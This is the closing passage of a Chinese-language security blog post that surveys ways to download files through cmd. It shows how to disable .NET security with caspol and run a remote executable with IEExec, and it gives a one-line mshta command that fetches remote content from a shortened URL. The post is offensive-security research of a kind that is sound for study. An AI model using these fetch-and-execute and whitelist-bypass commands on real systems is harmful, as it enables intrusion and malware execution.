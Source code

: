 需要管理员权限


```
cd C:\Windows\Microsoft.NET\Framework\v2.0.50727\
caspol -s off
IEExec http://github.com/3gstudent/test/raw/master/putty.exe
```

**注：**

exe需要满足特定格式

详情可参考：

https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

**注：**

我在Win7下复现失败


## 0x05 小结
---

本文对通过cmd实现从github下载文件的方法做了汇总，最短的实现方式为`mshta http://t.cn/RYUQyF8`

实现的最短字符长度为25


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




